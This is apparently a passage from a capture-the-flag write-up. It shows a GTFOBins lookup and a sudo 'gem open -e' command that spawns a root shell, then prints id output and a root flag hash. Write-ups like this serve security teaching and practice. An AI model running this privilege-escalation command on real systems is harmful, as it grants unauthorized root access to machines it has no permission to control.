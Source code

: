 PS: it's not an issue if there is a desync of a few seconds because the OTP
window is 17 codes so we can have a max desync of 17 x 30 sec.

Let's see the pe for `gem`:

```plaintext
$ gtfoblookup linux sudo gem
gem:

    sudo:

        Description: This requires the name of an installed gem to be
                     provided (`rdoc` is usually installed).
        Code: sudo gem open -e "/bin/sh -c /bin/sh" rdoc
```

My paylmaod will be

```palintext
sudo /usr/bin/gem open -e "/bin/sh -c /bin/bash" bundler
```

Let's get root:

```plaintext
# id
uid=0(root) gid=0(root) groups=0(root)

# cat /root/root.txt
96a8f2a385ce2c384353e6998dc3fdac
```
